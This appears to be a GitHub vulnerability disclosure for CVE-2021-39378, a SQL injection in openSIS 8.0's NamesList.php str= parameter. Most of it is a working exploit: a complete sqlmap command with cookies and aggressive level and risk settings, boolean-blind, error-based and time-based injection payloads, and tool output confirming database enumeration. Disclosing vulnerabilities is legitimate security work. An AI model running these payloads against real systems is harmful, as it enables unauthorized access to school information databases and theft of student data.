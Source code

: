 # OPENSIS 8.0 SQL INJECTION VULNERABILITY CVE-2021-39378

A SQL Injection vulnerability exists in version 8.0 of openSIS when MySQL (MariaDB) is being used as the application database. A malicious attacker can issue SQL commands to the MySQL (MariaDB) database through the vulnerable str= parameter. 

Vulnerable PHP Page:

NamesList.php

Vulnerable Payload

sqlmap -u "http://localhost:8081/NamesList.php?str=J&block_id=1" --cookie="PHPSESSID=s8n71sv8ji77mdjkmh6cj1ik5d; miniSidebar=0" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36" --referer="http://localhost:8081/Modules.php?modname=miscellaneous/Portal.php&failed_login=0" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --level=3 --risk=3 --threads=8 --time-sec=5 -b --current-db --batch --answers="crack=N,dict=N,continue=Y,quit=N"

SQL Injection:

http://localhost:8081/NamesList.php             
```
Parameter: str (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: str=J%' AND 4830=4830 AND 'mmPI%'='mmPI&block_id=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: str=J%' AND (SELECT 5261 FROM(SELECT COUNT(*),CONCAT(0x716b6b7a71,(SELECT (ELT(5261=5261,1))),0x7176706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'YfUK%'='YfUK&block_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: str=J%' AND (SELECT 9071 FROM (SELECT(SLEEP(5)))hYUR) AND 'vbOt%'='vbOt&block_id=1

[18:41:23] [INFO] testing MySQL
[18:41:23] [WARNING] reflective value(s) found and filtering out
[18:41:23] [INFO] confirming MySQL
[18:41:23] [INFO] the back-end DBMS is MySQL
[18:41:23] [INFO] fetching banner
[18:41:23] [INFO] resumed: '10.5.11-MariaDB-1'
web application technology: PHP 7.4.21
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
banner: '10.5.11-MariaDB-1'
[18:41:23] [INFO] fetching current database
[18:41:23] [INFO] resumed: 'opensis5'
current database: 'opensis5'
```

Discovered by Nathan Johnson, August 2021
